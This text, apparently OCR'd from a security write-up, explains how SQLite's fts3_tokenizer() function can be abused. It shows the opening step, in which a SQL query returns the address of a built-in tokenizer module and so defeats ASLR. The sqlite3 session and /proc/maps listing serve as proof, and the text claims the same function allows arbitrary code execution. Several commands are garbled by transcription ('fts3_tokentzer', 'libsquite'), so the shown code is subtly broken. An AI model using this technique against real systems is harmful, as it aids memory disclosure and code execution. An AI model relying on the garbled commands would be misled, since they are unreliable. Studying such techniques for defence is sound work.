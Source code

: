 When the tokenizer is ready, we should register it to the SQLite.

> FTS does not expose a C-function that users call to register new tokenizer types with a database handle. Instead, the pointer must be encoded as an SQL blob value and passed to FTS through the SQL engine by evaluating a special scalar function, `fts3_tokenizer()`. The `fts3_tokenizer()` function may be called with one or two arguments, as follows: `SELECT fts3_tokenizer(<tokenizer-name>);
SELECT fts3_tokenizer(<tokenizer-name>, <sqlite3_tokenizer_module ptr>)`;
> Where is a string identifying the tokenizer and is a pointer to an `sqlite3_tokenizer_module` structure encoded as an SQL blob. If the second argument is present, it is registered as tokenizer and a copy of it returned. If only one argument is passed, a pointer to the tokenizer implementation currently registered as is returned, encoded as a blob. Or, if no such tokenizer exists, an SQL exception (error) is raised.[1]You may notice that there's a security warning in SQLite's official document. Actually we can abuse `fts3_tokenizer` to execute arbitrary code, and even break a modern system protection.

## Leak the Module Base

SQLite3 has a few built-in tokenizers, like **simple**, **porter** and **unicode61**. The query below returns a hex string represents a big-endian address:

```sql
select hex(fts3_tokenizer('simple'));
```

In [ext/fts3/fts3.c](https://github.com/mackyle/sqlite/blob/c37ab9dfdd94a60a3b9051d2ef54ea766c5d227a/ext/fts3/fts3.c#L5876-L5877) it loads the built-in tokenizers into a hash table. The address comes from `libsqlite3`'s `.bss` section and refers to this:

```c
static const sqlite3_tokenizer_module simpleTokenizerModule = {
 0,
 simpleCreate,
 simpleDestroy,
 simpleOpen,
 simpleClose,
 simpleNext,
};
```

So a simple SQL query breaks the ASLR.

```sql
~ sqlite3
SqLite version 3.8.7.4 2014-12-09 01:34:36
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> select hex(fts3_tokentzer('simple'));
E03B7EE4F67F0000
sqlite>
```

```sh
~ grep libsquite /proc/20267/maps
7ff6e4522000-7ff6e45e3000 r-xp 00000000 08:01 569 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
7ff6e45e3000-7ff6e47e2000 ---p 000c1000 08:01 569 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
7ff6e47e2000-7ff6e47e5000 r--p 000c1000 08:01 569 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
7ff6e47e5000-7ff6e47e7000 rw-p 000c4000 08:01 569 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
```

